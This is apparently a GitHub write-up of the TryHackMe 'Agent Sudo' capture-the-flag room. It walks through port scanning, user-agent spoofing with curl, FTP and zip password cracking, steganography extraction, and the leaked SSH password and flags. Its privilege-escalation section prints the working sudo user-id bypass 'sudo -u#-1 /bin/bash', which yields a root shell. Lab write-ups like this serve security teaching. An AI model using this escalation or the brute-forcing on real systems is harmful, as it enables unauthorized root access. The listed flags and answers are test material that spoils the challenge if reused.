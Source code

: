 # Report on Agent Sudo
[![Header](./assets/Header.png)](https://tryhackme.com/r/room/agentsudoctf)

# Enumiration 
1. The no of ports open -> **3**

we can see the nmap scan report in `nmap.scan`
There is a clue that user agent should be masked to `R`.
Use burpsuite to do so.
![Burpsuite](./assets/user-agent.png)
In the above picture we can see that i have changed the useragent to be `R`
we can achieve the same using `curl`
```bash
curl -A "R" -L <Ip address>
`-A` -> masks the user-agent
`-L` -> Follows Redirects
```
2. How you redirect yourself to a secret page? -> **user-agent**

Now we get to know that there are 25 employes and 26 alphebats. 
Lets bruteforce one by one 
```bash
curl -A "C" -L <IP address>
```
The above user returs some secreat..
Its the username.
refer [curl-c.txt](./files/curl-c.txt)

3. What is the agent name? -> **chris**

# Bruteforce
1. FTP password -> *refer [ftp-bruteforce](./files/ftp-bruteforce.txt)*

once am into the FTP, i have seen 3 files, got them to my host and then started ro extracte any hidden files using binwalk.
```bash
binwalk -e <filename>
```
2. Zip file password
Found hidden zip file `8072.zip`.
Its a password protedcted zip file and used john to extract the password
*refer [8072.zip](./files/8702-zip-password.txt )*

3. Steg password 
And the other file `cute-alien.jpg` -> being a jpg file, there is a prossibility to extracte stegs from the file.
I used `stegseek` to do the same 
```bash
stegseek <filename>
```
![setegseek](./assets/stegseek.png)

[output-file](./files/cute-alien.jpg.out)

```bash
stegseek cute-alien.jpg                                  [ ⚡9ms ] [ 02:26 PM ]
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "Area51"
[i] Original filename: "message.txt".
[i] Extracting to "cute-alien.jpg.out".
```
4. Who is the other agent (in full name)?

[output-file](./files/cute-alien.jpg.out)

7. SSH password

`hackerrules!`
[output-file](./files/cute-alien.jpg.out)

# Flag

1. User flag
**b03d975e8c92a7c04146cfa7a5a313c7**

2. What is the incident of the photo called? 
**roswell alien autopsy**

# Privilege escalation

```Check for the user sudo permissions

sudo -l 

User hacker may run the following commands on kali:
    (ALL, !root) /bin/bash


So user hacker can't run /bin/bash as root (!root)


User hacker sudo privilege in /etc/sudoers

`# User privilege specification`
root    ALL=(ALL:ALL) ALL

hacker ALL=(ALL,!root) /bin/bash


With ALL specified, user hacker can run the binary /bin/bash as any user

EXPLOIT: 

sudo -u#-1 /bin/bash
the above command will try to execute the /bin/bash using the username of the `-1`
Example : 

hacker@kali:~$ sudo -u#-1 /bin/bash
root@kali:/home/hacker# id
uid=0(root) gid=1000(hacker) groups=1000(hacker)
root@kali:/home/hacker#

Description :
Sudo doesn't check for the existence of the specified user id and executes the with arbitrary user id with the sudo priv
-u#-1 returns as 0 which is root's id

and /bin/bash is executed with root permission
```
1. CVE number for the escalation 
[Exploit-db](https://www.exploit-db.com/exploits/47502)

2. What is the root flag?
**b53a02f55b57d4439e3341834d70c062**

3. (Bonus) Who is Agent R?
**DesKel**
